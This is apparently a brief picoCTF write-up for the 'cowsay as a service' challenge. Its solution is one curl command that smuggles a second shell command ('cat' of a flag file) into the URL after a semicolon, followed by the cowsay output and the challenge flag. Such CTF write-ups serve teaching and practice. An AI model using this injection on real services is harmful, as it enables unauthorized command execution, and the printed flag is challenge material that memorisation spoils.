 ## Objetivo
Now presenting [cowsay as a service](https://caas.mars.picoctf.net)

## Solución
```bash
──(kali㉿kali)-[~]
└─$ curl "https://caas.mars.picoctf.net/cowsay/hi;cat%20falg.txt"
 ____
< hi >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}

```

